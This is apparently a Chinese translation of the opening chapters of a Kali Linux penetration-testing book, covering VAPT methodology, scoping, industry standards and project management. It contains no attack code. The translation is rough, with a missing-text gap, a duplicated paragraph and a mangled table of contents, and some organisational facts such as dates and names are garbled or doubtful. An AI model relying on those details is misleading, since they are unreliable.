# Kali Linux 高级渗透测试指南

## 献给

我亲爱的父母

Dhanni Devi 和 Ratan Lal Meel

以及

我尊敬的大哥和嫂嫂 

Vijendra Singh Meel 和 Anita

## 关于作者

Ummed Meel 是网络安全领域一位卓有成就的专业人士，拥有十多年的经验。他在众多项目中发挥了关键作用，成为领导者和安全实践专家。`Ummed` 拥有多项卓越认证，如注册信息系统审计师 (`CISA`)、认证伦理黑客 (`CEH`) 和注册计算机黑客取证调查员 (`CHFI`)，以及网络法文凭 (`DCL`)。凭借卓越的履历，`Ummed` 开展了 150 多场培训和研讨会，磨炼了他在网络安全、伦理黑客、情报、数字取证和网络犯罪调查方面的技能。他在建立网络安全实践方面也表现出色，为多个组织做出了贡献。他的读者涵盖了全国各地的警察部门以及包括印度空军 (`IAF`)、`BSF`、`CISF`、`CAG`、`BPRD` 以及各部部的知名机构。

`Ummed` 在多个领域积累了丰富的经验，涵盖红队对抗、漏洞评估、渗透测试、网络安全审计、合规性、差距评估和网络咨询。他丰富的经验跨越多个行业，包括电信、制造业、物流、酒店、银行、金融科技、电力供应、证券交易所、航空等。

此外，`Ummed` 通过在全球知名杂志和期刊上发表文章做出了重大贡献。他通过许多新闻频道和报纸分享了他的专业见解，阐明了网络相关的解决方案。此外，他在一百多场研讨会和讲座中授知识，在教育机构积极提高对网络犯罪的意识。他的卓越投入还协助调查机构成功解决了该国约 200 起重大网络犯罪案件。

`Ummed` 的学术背景包括技术学士（荣誉）学位、法学学士 (`LLB`)（网络法），目前正在 `BITS Pilani` 修读网络安全硕士学位。

## 关于审稿人

`Darryn Brownfield` 是一位渗透测试员和漏洞赏金猎人，在 `IT` 行业拥有超过 10 年的经验。他持有行业认可的受推崇认证，如 `OSCP`、`PNPT`、`CRT` 和 `CRTP`。他在社交媒体和 `YouTube` 上发布 `CTF` 解题报告、漏洞赏金发现和认证评审。

## 致谢

我深感谢我的家人和朋友在本书创作过程中给予的坚定支持，特别是我的父母 `Dhanni Devi` 和 `Ratan Lal Meel`。衷心感谢我的灵感来源——哥哥 `Vijendra Singh Meel` 和嫂嫂 `Anita`，他们持续的鼓励，即使在深夜写作时也是。特别感谢我的妹妹 `Babita Meel` 和姐夫 `S.I. Ram Swaroop` 提供的极大帮助。

感谢 `BPB Publications` 在本书出版过程中提供的指导。完善这项工作是与审稿人、技术专家和编辑共同的旅程，每个人都做出了宝贵的贡献。

带着深切的感激，我向信息安全领域的导师、主管、同事和业内专业人士表示谢意，他们的指导极大丰富了我的理解。我很幸运能得到他们的祝福。我特别感谢我的弟弟 `Brijendra Khyalia` 提供的宝贵建议。

对于三位[缺失文本]

## 前言

在编写本书时，我们的意图为读者提供一份漏洞评估与渗透测试的全面指南。我们的目标是双重的：教育并赋能应对不断变化的网络安全格局。我们渴望为初学者到资深专业人士提供知识。

`https://rebrand.ly/j6c2hib`

我们在丰富的书籍和视频目录中提供了代码礼包，地址为：`https://github.com/bpbpublications`。快去查看吧！

## 勘误

`errata@bpbonline.com`

`BPB` 出版家族非常感谢您的支持、建议和反馈。

您知道吗？`BPB` 为每本出版的书都提供了 `eBook` 版本，并提供 `PDF` 和 `ePub` 文件。您可以在 `www.bpbonline.com` 升级到 `eBook` 版本，作为纸质书客户，您有权获得 `eBook` 版的折扣。联系我们：`nbusiness@bpbonline.com`，您还可以阅读免费技术文章合集，订阅一系列免费新闻邮件，并接收 `BPB` 书籍和 `eBook` 的专属折扣和优惠。

## 盗版

如果您在互联网上遇到任何形式的我们作品的非法副本，如果您能为我们提供地址或网站名称，我们将不胜感激。请通过 `business@bpbonline.com` 联系我们并附上材料链接。

## 如果您兴趣成为作者

如果您在某个领域拥有专长，并且对编写或为书籍做贡献感兴趣，请访问 `www.bpbonline.com`。我们已经与成千上万像您这样的开发者和技术专业人士合作，帮助他们向全球技术社区分享见解。您可以提交通用申请、申请我们正在招募作者的热门话题，或提交自己的想法。

## 评论

请留下您的评论。在您阅读并使用这本书后，为什么不在购买的网站上留个评价呢？潜在读者就可以看到并利用您的公正见解来做出购买决策。我们 `BPB` 可以了解您对我们产品的看法，我们的作者也可以看到您对书的反馈。感谢！

欲更多关于 `BPB` 的信息，请访问 `www.bpbonline.com`。

## 加入我们的书籍 Discord 空间

加入书籍的 `Discord` 工作空间，获取最新更新、优惠、全球科技动态、新书发布以及与作者的会议：

`https://discord.bpbonline.com`

- 计算机网络
- 理解网络渗透
- `Metasploit` 数据库与工作区管理
- 序言
  - 无线网络与协议概述
- 为无线渗透测试配置 `Kali Linux`
- 无线网络利用技术
  - 绕过 `MAC` 和开放认证
- 权限提升技术
  - `Linux` 权限提升
  - 渗透安全控制
  - 漏洞评估报告
- 风险评估与优先级排序
- 漏洞管理跟踪器

# 第一章

渗透测试 (`PT`) 是一种授权实践，旨在识别计算机系统的技术和逻辑缺陷，并评估安全控制、监控能力和应急响应流程。随着技术的不断进步，攻击面的复杂性日益增加，漏洞评估与渗透测试 (`VAPT`) 成为缓解潜在威胁的关键方法。通过提供组织安全状况的准确的修复解决方案，`VAPT` 可以保护企业免受数据泄露和未经授权的访问。

今天，零信任策略已成为组织安全的重要组成部分，`VAPT` 也例外。它在确保应用程序和设备输入的正确验证方面起着重要作用。

本章涵盖了 `VAPT` 项目规划、管理和治理的基本原理。还探讨了人员、流程和技术 (`PPT`) 框架，这有助于明确它们在 `VAPT` 中的作用。本章进一步探讨了 `VAPT` 方法论和方法，使测试人员具备行业化的理解。通过这种理解和敏捷的方法，测试人员可以顺利高效地执行企业级测试实践。

在项目开始之前，介入技术可以帮助审计组织明确客户的范围和需求，并相应地选择工具集、人力交付物。

> 注意：定期的漏洞评估和渗透测试是识别、优先级排序、报告和修复安全安全实践、威胁和漏洞的重要练习。通过定期执行这些练习，组织可以主动缓解威胁。

在本章中，我们将讨论以下主题：

本章的主要目的是为网络安全专业人员和组织提供高级 `VAPT` 方法的深度理解。通过阅读本书，你不仅将学习 `VAPT` 方法，还将学习其标准、框架、范围设计、客户

参与、项目管理、治理以及客户成功策略。

高级的 `VAPT` 方法和技术可以根据其严重程度有效识别并优先处理漏洞，使组织能够精力集中在解决最关键的漏洞上。这种方法可以提高 `VAPT` 流程的整体效率，并带来更成功的成果。本章对于想要了解为什么需要 `VAPT` 服务，以及根据相关的法规或行业标准确定哪些服务对业务最有益的个人和组织也很有帮助。

## `VAPT` 基础知识

漏洞评估与渗透测试（`VAPT`）是一种系统化且基于风险的方法，用于识别计算机基础设施中的安全漏洞。`VAPT` 审计结合了自动化工具和人工操作，以检测攻击者可能利用的所有潜在漏洞。

漏洞生命周期是指漏洞从发现到解决的各个阶段。图 1.1 提供了该过程的视觉化表示：




## 漏洞评估

`VA`（漏洞评估）只能检测目标系统中的弱点。然而，它无法区分哪些发现具有被利用并对系统造成损害的潜力。

## 渗透测试

`PT`（渗透测试）是一种基于漏洞评估结果的顺序性练习。在此过程中，渗透测试人员识别漏洞并利用它们来获取访问权限并外泄数据。此外，渗透测试通过通过利用后获得的权限对系统进行评估，以确定可访问数据的敏感性。

例如，如果通过指纹抓取（`banner grabbing`）识别出过时的服务版本，且测试人员在报告中包含了所有相关的 `CVE`/`CWE`，这被归类为漏洞评估。然而，如果测试人员能够通过使用利用程序（`exploit`）获取服务器访问权限或获得预期的响应，则属于渗透测试的范畴。

> 注意：渗透测试人员不应满足于识别明显的漏洞后停止工作。鉴于攻击面日益增加复杂，需要投入大量精力对系统进行彻底测试并确保其免受潜在威胁。

## 高级渗透测试技术和策略

十年前，当组织还没有优先考虑网络安全时，基础技术知识就足以使用自动化工具进行漏洞评估扫描了。然而，这种方法现在只能识别已知的技术性漏洞。随着技术和 `VAPT` 方法论的演进，现代化变得至关重要。例如，攻击载荷必须是先进的且**完全不可检测（`FUD`）**的，才能有效绕过安全控制。建立面向目标的的测试方法至关重要，以定义在审计期间为什么要绕过网络防火墙或 `Web` 应用防火墙。高级 `VAPT` 方法使用更复杂的工具和技术来检测和利用漏洞，提供了许多益处，如图 1.2 所示。


图 1.2：高级 `VAPT` 方法

为了确保及时、全面地检测所有漏洞，你的基于风险的方法必须兼具敏捷性和先进。高级渗透测试不仅可以帮你检测漏洞，还可以为你的计算机基础设施识别最有效的安全控制。渗透测试人员必须具备全面的理解和技能组合，以准确审计业务的敏感区域。

传统的资产发现 `VAPT` 过程曾被认为是最基本的，现在已演变为攻击面管理。这是一种经过规划的方法，用于持续发现、清点、标记和监控组织基础设施中 `IT` 资产的攻击面。攻击面在不断变化，是所有规模组织的关键考虑因素。通过实施有效的攻击面管理实践，系统所有者和首席信息安全官（`CISO`）都可以获得组织 `IT` 基础设施的可见性。

> 注意：在某些情况下，系统业务逻辑流中的漏洞可能比技术漏洞产生更大的影响，这类漏洞可能只需要较少的技术知识和工具集即可被利用。

## `VAPT` 的业务与合规需求

今天，进行 `VAPT` 练习对所有企业来说都至关重要，并被视为确保数据安全的一种常规做法。`VAPT` 是一种实用且经过验证的方法，帮助企业识别、分析、优先排序并缓解风险。漏洞可能存在任何地方，例如软件、硬件或通信中，但密集的测试方法需要深入挖掘，并在黑客利用之前修复漏洞。每家业务都需要对其整个攻击面进行全面评估，以确保其信息通信技术（`ICT`）免受已知和未知威胁的影响。

注意：每个应用程序在处理用户输入时应保持谨慎，确保所有输入都经过适当的清理，并且仅在符合批准格式时才存储。

访问数据和应用的便利性通常是企业的首要任务，但安全合规性要求可能会带来挑战。这些要求可能与业务需求冲突，很难在两者之间找到平衡。定期的 `VAPT` 审计对于识别和解决漏洞以及确保合规是必要的。风险接受和监控对于检测和响应针对安全控制和终端的网络攻击至关重要。

`VAPT` 练习的范围应涵盖广泛的资产，包括网络、网站、软件、无线网络、移动应用程序、`API`、容器、云端服务、社交平台和安全设备。在某些情况下，可能还需要物理渗透测试来模拟真实世界的威胁，并在组织内部建立稳健的安全生态系统。

## `VAPT` 为组织带来巨大益处，例如：

- 提供对组织基础设施全面的可见性
- 协助管理攻击面
- 提高整体安全态势
- 便于基于业务创建威胁模型
- 识别并解决漏洞
- 实施安全措施
- 协助选择适当的安全控制措施
- 辅助设计安全架构

> 注意：`VAPT` 审计报告必须提交给合规机构，因此内容详尽且组织良好至关重要。

## `VAPT` 的工业方法与方法论

学术界有其价值，但面向工业的方法和方法论由于结合了实战挑战而更胜一筹。得于自动化的发展，审计公司现在只需少量细节即可创建定制的方法和方法论。

该方法方法论通常包含以下阶段：


图 1.3：`VAPT` 的工业方法与方法论

## 目标

为了成功的 `VAPT` 实践，被审计组织必须明确定义其目标。这涉及让开发者、维护人员、保管人员和基础设施所有者参与目标设定。练习目标还应概述特定原因以及符合指南的预期输出。如果不将安全实践与业务需求相结合，就无法实现预期目标。

## 启动会议

启动会议是审计和被审计团队之间重要的会议，包括双方的发言人和项目经理。它是讨论准备工作和介绍团队成员的机会。根据需要，双方团队还应讨论从相关部门获得必要的许可和法律授权。在会议期间，可能会决定交付计划、方法、材料和预期周期。

`RACI` 矩阵（也称为责任分配矩阵或 `RACI` 表）是一种非常有用的工具，用于定义和记录项目或流程中个人或团队的角色和职责。它有效地传递了谁对每个任务或决策负责。如果直接负责的人员没有响应或表现不佳，升级矩阵进一步强调了这一点。

## 被动情报

被动情报收集涉及在目标察觉到任何情报收集活动的情况下收集信息。它依赖于公开的资源，如搜索引擎、社交媒体平台、招聘网站、网络存档、数据泄露和暗网论坛。这些资源被用于收集情报，渗透测试人员与目标之间无需任何直接连接或交互。然而，由于其脱离的性质，这种方法也可能包含一些误报情报。

## 主动情报收集

这是一种主动方法，渗透测试人员直接与目标交互以获取更精确的信息。主动情报收集涉及收集关键数据，例如技术栈、框架、`DNS` 枚举、端口、服务、操作系统指纹、子域名、目录、页面、安全控制措施等。然而，这应该在获得相关部门的法律和管理层批准后才能进行。

## 威胁建模

威胁建模是一个系统化的过程，有助于识别和列举潜在威胁，例如架构缺陷和安全控制措施不当。防御措施的选择和实施取决于威胁可能造成的潜在损害以及控制成本。通过威胁建模，可以回答一些关键问题，例如“对您的业务最相关的威胁是什么？”、“缺失或无效的安全控制措施有哪些？”以及“需要哪些行动来防御这些威胁？”。

网络威胁建模的益处包括：

- 威胁的发现、优先级排序和减少
- 促进理性决策
- 减少攻击面
- 选择并实施经济且必要的安全控制措施
- 提高组织的安全态势

> 注意：每当渗透测试人员发现缺乏适当的安全控制措施时，应在报告中记录，并附带相应的建议。

## 漏洞评估

漏洞评估是一个渗透测试人员试图发现应用程序和计算机网络逻辑及技术缺陷的过程。例如，在网络漏洞评估（`VA`）扫描中，渗透测试人员首先识别操作系统、开放端口和运行的服务。检查服务版本对于判断运行版本是否存在漏洞或是否为最新至关重要。在列出任何缺陷之前，全面的评估涉及多层关联分析。

进行漏洞评估有两种不同的方法：自动和手动。

### 自动化 `VA` 扫描

自动化扫描工具（如 `Nessus`、`Nexpose` 和 `OpenVAS`）通过将接收到的数据或参数与漏洞数据库对比来分析响应。当匹配预设条件时，扫描将识别并列出漏洞。利用自动化扫描允许组织简化漏洞检测流程，最大限度地减少时间、精力和相关成本。

### 手动 `VA` 扫描

另一方面，手动评估可以揭示任何自动化工具可能无法检测到的漏洞。然而，手动方法也有其缺点，例如需要额外的精力、时间和成本。

## 渗透测试

渗透测试紧随漏洞评估（`VA`）之后，渗透测试人员尝试利用在初始扫描中识别出的漏洞。利用程序（`Exploit`）旨在触发目标服务器执行未经授权的操作并交付预期输出。通过利用存在漏洞的服务，可以执行诸如数据转储、中断和反向连接等操作。

虽然许多具有大量数据库的工具可以利用已的技术漏洞，但手动方法仍然利用业务逻辑流或逻辑缺陷的最佳且最准确的方法。某些组织倾向于在生产环境中进行渗透测试，以评估其安全控制措施的有效性。

> 注意：在生产环境中执行基于内存和拒绝服务（`DoS`）的利用攻击时，必须极其小心。遵循行业最佳实践，建议在这些情况下仅使用辅助工具，避免直接执行利用攻击。

## 渗透后

此项练习的主要目标是评估受攻击资产的价值并建立持久性以长期使用。资产估值对于确定受攻击系统上访问数据的敏感性至关重要。

获取有关受攻击服务器的情报（包括配置、通信以及与网络系统中系统的关系）对于执行横向移动非常有益。全面的渗透后测试还评估了目标资产或内部授权控制的有效性。虽然攻击方法可能根据目标的性质而异，但最终目标仍然是：将当前权限级别提升到下一个或 `root` 级别。

> 注意：鉴于您目前的网络访问权限，在进行任何权限提升或网络跳转活动之前，确保获得被审计组织的授权至关重要。

## 报告

报告阶段是整个渗透测试过程中最有价值、最关键的部分。它应该是易于理解并丰富了信息的。结构良好的报告有助于利益相关者选择正确的补丁方案。

渗透测试人员利用通用漏洞评分系统（`CVSS`）分数来确定发现问题的严重性。为了简化并增强完整性，受同一漏洞影响的所有终端应包含在示例中。此外，审计报告应包含所有合规审计的信息。三种首选的报告类型为安全态势执行摘要、漏洞管理跟踪和详细技术报告。

## 安全态势：执行摘要

专门为首席信息安全官（`CISO`）设计的高层文档展示了组织的当前和历史安全状况。由于渗透测试项目的多样化以及报告的复杂性，采用整合的方法是必要的，这通过安全态势或执行报告来实现。这一决策文档有助于选择适当的控制并消除不必要的以优化成本。

## 详细技术报告

在此部分，我们将展示在提案讨论中达成的技术交付物。技术报告将包含关键信息，包括漏洞名称、描述、受影响终端、`CVSS` 分数、级别、`CVE` 和 `CWE` 标识符、证明（`POC`）、重现步骤、影响评估、缓解策略和参考文献。

## 漏洞管理跟踪

漏洞跟踪表作为审计方（渗透人员）与被审计团队之间的中间文档，能够实现有效的实时发现管理。该工具允许轻松跟踪关键或优先级漏洞的当前状态（已修复、开启或进行中）。虽然市场上有很多自动化工单管理解决方案，但共享的 `Excel` 表格也可以有效地管理漏洞。

开放 Web 应用安全项目（`OWASP`）是一个由 `OWASP` 基金会领导的在线社区，致力于在应用安全领域提供免费的文章、方法论、工具和技术。`Mark Curhey` 于 2001 年 9 月 9 日发起了 `OWASP`；第一份“十大”列表于 2003 年发布。根据 40 多家合作伙伴机构所经历的安全风险趋势，该列表每四年进行一次定期更新。


OWASP 的主要目标是识别与应用程序相关的十大网络安全威胁，提供评估清单并为安全开发提供最佳实践建议。此外，OWASP 还有意开发了若干不安全的 Web 应用程序（如 `WebGoat`），旨在帮助学生探索漏洞并培养安全编码习惯。

系统管理、审计、网络与安全（`ANS`）学院是一家成立于 1989 年的美国私营营利公司，是全球最大的网络安全研究和培训机构之一。

`CWE/ANS` 前 25 列表识别了最严重且发生最广泛、且容易被发现和利用的软件漏洞。这些漏洞为黑客提供了参与恶意活动的机会，如黑客攻击、数据窃取、欺骗、创建后门、`DDoS` 攻击和完全接管系统。`CWE/ANS` 前 25 漏洞是通过多次调查、趋势观察以及对 `DevSecOps` 和安全从业人员的个人访谈得出的。

渗透测试执行标准（`PTES`）由七步组成，使渗透测试人员能够系统、精确且有效地开展活动。它支持从初始沟通到最终交付或详细报告的整个过程，涵盖了接前准备、情报收集、威胁建模、漏洞评估、漏洞利用和报告。`PTES` 在如此广泛的范围内将渗透测试实践标准化，使得传统的应用程序、`API`、网络和无线测试方法变得等同于全面的红队对抗。

该项目由安全与开放方法论学院（`ISECOM`）维护，并在开放社区中开发，并得到了全球众多公司的宝贵贡献。`OSSTMM` 提供了一种先进且详尽的安全评估方法论，消除了假设和轶事证据。它作为一种在操作层面准确衡量网络安全的知名方法而声誉卓著。

`OSSTMM` 允许任何安全从业人员贡献想法，确保该方法不断改进，使其更加准确、现实、可操作且高效。本手册的重点是跨所有操作通道的操作安全（`OpSec`）测试，涵盖人员、物理、无线、电信和数据网络。

这些指南旨在确保：

- 测试执行得彻底。
- 测试包含了所有必要的通道。
- 测试态势符合法律。
- 结果能够以量化的方式进行衡量。
- 结果具有一致性和可重复性。
- 结果仅包含直接源自测试的事实。

`NIST` 网络安全框架由美国国家标准与技术研究院（`NIST`）设计并发布，是个人、企业和组织评估可能影响其运营的网络风险的宝贵资源。它在全球范围内获得认可和接受，是关键基础设施网络安全流行的最佳实践。

`NIST` 网络安全框架分为五个功能，并进一步细分为 23 个类别，提供了一种全面的方法。每个类别定义了许多网络安全结果和安全控制子类别，共 108 个子类别。该框架不仅识别并优先考虑风险，还协调了政策、业务和技术方法，以实现高效的风险缓解管理。

`NIST` 网络安全框架的五个功能如下：

- 识别 (`Identify`)
- 保护 (`Protect`)
- 检测 (`Detect`)
- 响应 (`Respond`)
- 恢复 (`Recover`)

`ISO/IEC 27001` 是一项国际标准，帮助组织建立、实施、维护和持续改进信息安全管理体系（`ISMS`）。该标准的成功实施可确保关键计算机基础设施免受技术和人为威胁的有力保护。

符合标准的组织在成功完成审计后，还可以在获得认可的机构获得认证。`ISO 27001` 指导对组织攻击面相对于威胁和漏洞进行系统检查，评估所实施的安全控制的有效性。它还促进了全面的信息安全控制集的设计和实施以降低风险。

`ISO/IEC 27001:2013` 十个简洁的条款：

`互联网安全中心（CIS）` 是一家成立于 2000 年 10 月的美国非营利组织。其使命是推广及时的最佳实践解决方案和控制措施，保护个人、企业和政府免受针对 `关键信息基础设施（CII）` 的广泛威胁。

`CIS` 与众多公司、政府机构和教育机构合作，识别并完善有效的安全措施。其中一个关键方面是 `CIS` 基准（`Benchmarks`），它在制定安全策略和程序以确保稳健的信息访问控制方面起着关键的作用。`CIS` 基准包含 18 项优先安全措施，旨在缓解针对关键基础设施最常见的网络攻击。所有指定的控制文档均可从 `CIS` 官方网站下载。

`信息系统审计与控制协会（ISACA）` 于 1994 年在美国成立，是一个主要关注 `IT` 治理的国际专业协会。目前，`ISACA` 提供 8 多个多项认证计划以及微认证，为全球 180 多个国家的 140,000 名成员提供服务。

`ISACA` 在协助组织和审计师进行全面审计和实施审计标准方面发挥着重要作用。这些标准致力于满足审计和报告的强制性要求，确保审计人员维持最低绩效水平。

`MITRE ATT&CK` 框架作为一个知识库和研究计划，用于监控整个攻击生命周期中的对手行为。它是基于战术、技术和程序（`TTPs`）设计的。目前总共有 14 种已知战术，涵盖了许多技术和程序。

该框架在分析安全运营中心（`SOC`）由 `MITRE` 捕获的各种攻击向量触发的告警方面极具价值。此外，它有助于威胁情报的收集和分析。通过利用 `MITRE ATT&CK` 框架，组织可以构建更安全、自给自足的架构。

## 与客户的介入交互

介入阶段是 `VAPT`（漏洞渗透测试）项目的主要步骤，审计组织在此展示其工作方式、能力、方法论和交付物。同时，它让被审计组织全面了解提供的服务，并与其他市场参与者进行比较，以选择最合适的服务。这种讨论通常分几个阶段进行，并可能对服务的各个方面存在意见一致或分歧。尽管如此，双方最终会确定服务和交付模型。

## 定义审计范围

定义范围是整个活动中最关键且最具挑战性的步骤，审计必须在约定的区域内进行。范围的透明度对渗透测试人员有益，包括识别攻击面、制定攻击策略、选择正确的工具和资源、设定截止日期以及确定交付物。

记录所有项目至关重要，例如 `Web` 应用、移动应用、`API`、

`云`、`容器`、网络设备、服务器、数据库、运营技术（`OT`）、物联网（`IoT`）以及轻级客户端，清晰且无歧义地。此文档可以在相关方发生纠纷时作为证据。

审计对象可以根据其特定需求和理解，完全自由地选择演练性质。远程和现场演练各有优劣。远程实践可能在建立与组织内部网的连接方面具有复杂性，但为客户带来的成本较低。相反，现场演练不面临连接挑战，但由于资源差旅和住宿可能会产生更高的费用。

其他各种因素也会影响测试性质的选择，例如测试质量、连接通道带宽、已实施的安全控制、补丁支持以及漏洞管理。

`VAPT` 有多种测试方法可用，其中三种被广泛使用：黑盒测试、灰盒测试和白盒测试。在 `VAPT` 过程中，选择特定的测试方法取决于要识别和解决的目标、约束条件以及漏洞。这些测试方法在访问级别和对目标的了解程度上存在显著差异，如图 1.4 所示。




在这种方法中，渗透测试人员仅拥有目标的基础信息，例如 `IP` 地址和 `Web` `URL`。这种评估被称为基于表面的 `VAPT`，因为没有向渗透测试人员提供登录凭据。

在这种方法中，渗透测试人员不仅接收 `IP` 地址、`URL`、`APK`、`IP`、`API` 等信息，还能获得关于目标的详细流程说明，以理解其内部功能。这种评估被称为认证 `VAPT`，因为为渗透测试人员提供了某种程度的登录凭据。在目标知识和认证方面，它介于黑盒和白盒之间。

在这种情况下，渗透测试人员将拥有目标架构、数据流和源代码的全面知识。通过对目标的完全访问，渗透测试人员可以进行深度挖掘和逻辑测试，从而提高扫描质量。

> 注意：在选择合适的测试方法时，对演练的优缺点进行审慎评估是关重要的，因为每种方法将遵循独特的流程并产生不同的结果。

`VAPT` 可以在安全软件开发生命周期（`SDLC`）的多个阶段进行，包括开发期间的单元测试、`UAT` 环境的初始测试、预生产环境的全面测试以及生产环境的常规测试。每个测试环境对测试结果都有不同的优势和局限性。例如，在生产环境中，灰盒 `VAPT` 可以提供真实的攻击模拟，但也带有破坏生产或损坏数据库的风险。

可以根据各种参数选择方法和方法，包括定义的范围、测试方法、测试环境和演练性质。虽然审计员通常遵循标准方法，但根据需要可以进行细微调整。

审计时机应根据业务性质和客户需求选择。对于关键和生产环境，建议在用户流量最低的时段安排审计，这可能包括非工作时间、深夜或周末。

项目时间线由工作说明书（`SOW`）中定义的范围规模和性质决定。例如，由于包含了手动模糊测试，灰盒或白盒测试可能需要更长时间。详细的项目计划可以在启动会议期间共享。

`VAPT` 演练的任何必要条款和条件必须记录并由审计对象和审计组织共同签署。例如，如果在 `VAPT` 演练期间发生生产服务器崩溃导致组织财务损失，则可能包含相关条款。

`VAPT` 演练的任何必要条款和条件必须记录并由审计对象和审计组织共同签署。例如，如果在 `VAPT` 演练期间发生生产服务器崩溃导致组织财务损失，则可能包含相关条款。

演练的最终成功取决于交付物的交付。`VAPT` 评估通常涉及交付。未能满足预期的交付物可能会导致升级。

`VAPT` 评估通常涉及若干交付物，包括：

工作范围（`SOW`）是根据 `SOW` 中定义的范围规模和性质确定的。该文档在整个过程中具有至关重要的地位。

- 成本和人力分配

> 注意：虽然工作范围（`SOW`）主要作为技术文档，它在范围蔓延案例中也具有重要的法律证据。

现在，让我们深入项目规划、管理和治理。

为了确保 `VAPT` 项目按承诺的时间交付并取得成功，仔细的规划和监控是必须的。该文档作为审计对象和审计组织的指南，提供了已完成、进行中和即将任务的概述。

- 任务排序

在各种项目规划技术中，甘特图是最广泛使用且有效的方法之一。甘特图按优先级安排项目活动，显示每个任务的开始和结束日期。可以添加人员名称以负责。它清晰地显示了哪些活动将同时进行，哪些将按顺序进行。通过查看图表，可以很容易评估项目进度——是按计划进行、提前还是落后。

甘特图提供了宝贵的见解，使项目经理能够识别潜在的瓶颈或延迟，并允许他们高效地向利益相关者沟通项目计划，如图 1.5 所示。需要时可以进行调整，例如增加资源或加快速度以保持项目按计划进行。请参考下图：

```
| 任务 | 周期 | 2022 | | 2023 | | | |
|---|---|---|---|---|---|---|---|
| | | JUL AUG SEP OCT NOV DEC JAN FEB APR MAY JUN |
| 初始 VA 扫描 | 15 天 | | | | | | | | | | | |
| 报告讨论 | 2 天 | | | | | | | | | | | |
| 补丁支持 | 60 天 | | | | | | | | | | | |
| 复验证 | 05 天 | | | | | | | | | | | |
```

图 1.5: 甘特图

项目管理涵盖了一系列旨在实现实践定义目标的各种活动。每个项目都分配有一位专门的项目经理，以确保全面的集成控制。有效的项目管理对于维持盈利能力、确保按时完成以及遵守预算至关重要。对于任何参与领导或管理项目的人来说，项目管理是一项不可或缺的技能，有助于资源的有效利用。

项目管理生命周期包括项目启动、规划、执行、控制、监控和结束，如图 1.6 所示：



图 1.6: 项目管理生命周期

你有许多项目管理工具和技术可供使用，以有效控制时间和资源利用率。通过协调资源、交付物、预算和时长等关键项目管理元素之间的关系，你可以制定出一个具有盈利能力且全面的计划。参考图 1.7 以深入了解多个项目元素之间的相互联系：



图 1.7: 项目元素之间的关系

建立项目管理办公室（`PMO`）可以提高项目管理质量并确保项目的成功。

为了确保项目的成功执行，定义良好的治理模型和集中的控制机制是必不可少的，这与练习目标保持一致。治理内的决策应基于范围、成本、质量、时间和交付物等实体性因素。然而，某些无形因素，如团队冲突、领导问题、文化差异、环境变化和政治考量也可能影响最终决策。角色和职责应根据项目的复杂性进行定制，以建立有效的治理。

角色和职责可以分类如下：

客户成功管理是一种战略方法，侧重于让客户从 `VAPT` 服务中受益最大化。按照承诺、约定的时间表和不妥协的质量交付服务，对于与客户建立信任至关重要。为了确保长期的客户关系并促进可持续增长，请考虑实施以下客户成功策略：

- 客户反馈：在每次活动后收集客户反馈，以不断改进我们的服务。
- 长期关系：专注于建立长期关系，展现对他们安全需求的投入，并赢得他们的忠诚。

此外，可能需要升级指标和开箱即用的支持。

> 注意：在整个项目过程中与客户保持有效且开放的沟通。让他们参与决策，认真考虑他们的反馈，并及时解决任何问题。通过协作工作，可以建立信任，加强客户关系并提高项目的成功率。

你已经对先进的 `VAPT` 方法和方法论有了全面的理解。遵循 `VAPT` 标准和框架可以显著简化 `VAPT` 练习的执行，确保评估全面且有效。理解高级 `VAPT` 的理论方法对于寻求深入研究底层概念和原理的人员来说至关重要。

对系统或网络中的漏洞进行有效识别和利用，需要具备批判性思维和解决问题能力的安全专业人员。在接下来的章节中，我们将探索利用开源和常用工具搭建全面的、先进 `VAPT` 测试实验室的过程。这些实验室为安全专业人员练习、精炼和增强其 `VAPT` 技能和知识提供了一个宝贵的平台。`VAPT` 实验室的设计旨在模拟真实世界的系统和网络，为专业人员实验其技术和方法提供了一个受控的环境。


# 第 2 章

在本章中，我们将指导你使用免费和开源工具搭建先进的 `VAPT` 测试实验室。`VAPT` 实验室通常由互连的计算机系统和网络设备，如路由器、服务器、应用程序和交换机组成。这些系统被配置以模拟真实的网络，并包含安全漏洞和措施。

拥有一个 `VAPT` 实验室对于 `VAPT` 专业人员来说是关重要的。它提供了一个安全且受控的环境来磨练你的技能。此外，未经授权可能会导致严重的法律后果。在 `VAPT` 实验室中，专家可以进行测试和模拟，而不会损害实际系统或网络。这允许他们在不担心现实世界后果的情况下进行实验。在此过程中，这有助于他们创建针对性的 `VAPT` 策略，发现漏洞并加固自己的系统和网络。

> `VAPT` 实验室是 `VAPT` 从业人员的重要资产，为他们练习、学习和增强 `VAPT` 技能提供了一个安全且高效的环境。

在本章中，我们将讨论以下主题：

- 建立虚拟化环境
- 启动 `Kali Linux`
- 配置网络服务
- 启用 `ProxyChains`
- 个性化 `Kali Linux`
- 更新 `Kali Linux`
- 准备漏洞系统和应用程序
- 设置漏洞机器和应用程序

